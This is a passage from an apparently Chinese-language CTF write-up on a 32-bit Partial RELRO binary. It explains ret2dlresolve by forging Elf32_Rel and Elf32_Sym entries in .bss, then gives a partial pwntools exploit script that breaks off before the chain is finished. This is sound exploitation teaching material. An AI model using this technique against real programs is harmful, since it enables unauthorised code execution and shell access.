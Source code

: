 ## Partial RELRO -32

### 题目
编译：   
`gcc -fno-stack-protector -m32 -z relro -z lazy -no-pie pwn5.c -o partial_relro_32`

checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
### 思路
Partial RELRO，ELF 文件中的 .dynamic 节将会变成只读的，这时我们可以控制`_dl_runtime_resolve(link_map_obj, reloc_offset)`第二个参数，指向我们所构造的Elf32_Rel。   
`_dl_runtime_resolve`执行第2步骤：
>`.rel.plt` + 第二个参数`reloc_offset`求出当前函数的重定位表项Elf32_Rel的指针，记作rel

这个时候并没有检测`.rel.plt` + 第二个参数`reloc_offset` 是否越界，以我们能给一个很大的`.rel.plt`的offset（64位的话就是下标），然后使得加上去之后的地址指向我们所能操纵的一块内存空间，比方说.bss。
`_dl_runtime_resolve`执行第3步骤：
>`rel->r_info >> 8`作为`.dynsym`的下标，求出当前函数的符号表项`Elf32_Sym`的指针，记作sym

所以在我们所伪造的`Elf32_Rel`，需要放一个`r_info`字段，大概长这样就行0xXXXXXX07，其中XXXXXX是相对.dynsym表的下标，注意不是偏移，所以是偏移除以Elf32_Sym的大小，即除以0x10（32位下）。然后这里同样也没有进行越界访问的检查，所以可以用类似的方法，伪造出这个Elf32_Sym。至于为什么是07，因为这是一个导入函数，而导入函数一般都是07，所以写成07就好。

`_dl_runtime_resolve`执行第4步骤：
>`.dynstr + sym->st_name`得出符号名字符串指针。

即为我们控制的符号名

### PWN
#### 手工构造：
```python
from pwn import *
context(log_level='debug')
elf = ELF('partial_relro_32')
io = process(elf.path)
rop = ROP('partial_relro_32')

fake_rel_addr = bss_blank_addr = 0x0804A050

# 准备构造fake Elf32_Rel(dynsym表项)-计算偏移
fake_sym_addr = bss_blank_addr + 8
sym_table_addr = 0x080481D8
sizeof_sym = 0x10
fake_sym_table_idx = (((fake_sym_addr-sym_table_addr)//sizeof_sym) <<8) + 7
# 准备构造fake Elf32_Sym(dynstr表项)-计算偏移
str_table_addr = 0x08048278
system_addr = fake_sym_addr + 0x10
bin_sh_addr = system_addr + 7
fake_str_offset = system_addr - str_table_addr

# 构造fake Elf32_Rel
read_got_addr = elf.got['read']
fake_Elf32_Rel = p32(read_got_addr)
fake_Elf32_Rel += p32(fake_sym_table_idx)

# 构造fake Elf32_Sym
fake_Elf32_Sym = p32(fake_str_offset)
fake_Elf32_Sym += p32(0)
```